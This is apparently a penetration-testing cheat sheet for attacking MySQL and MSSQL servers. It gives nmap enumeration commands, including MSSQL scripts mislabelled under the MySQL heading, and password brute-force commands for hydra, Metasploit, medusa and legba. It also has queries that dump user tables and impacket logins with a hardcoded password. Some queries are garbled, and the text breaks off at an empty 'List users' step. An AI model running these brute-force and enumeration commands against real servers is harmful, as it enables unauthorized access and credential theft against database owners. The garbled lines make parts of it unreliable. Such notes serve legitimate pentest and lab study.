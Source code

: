 ## MySQL

Enumeration:
```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
```

Bruteforce
```bash
# hydra
hydra -L usernames.txt -P pass.txt <IP> mysql
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.146.186 mysql

# msfconsole
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

# medusa
medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql

#Legba
legba mysql --username root --password wordlists/passwords.txt --target localhost:3306
```

Inspect:

```
show databases;
use x;
show tables;
select * from users;

SELECT @@version;
SELECT name FROM sys.databases; 
SELECT _FROM offsec.information_schema.tables;
select_ from offsec.dbo.users;
```

## MSSQL
Login:

```
impacket-mssqlclient noman:'Noman@321@1!'@192.168.10.10
impacket-mssqlclient Administrator: 'Noman@321@1!'@192.168.10.10 -windows-auth
```

Enumeration:

```sql
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
```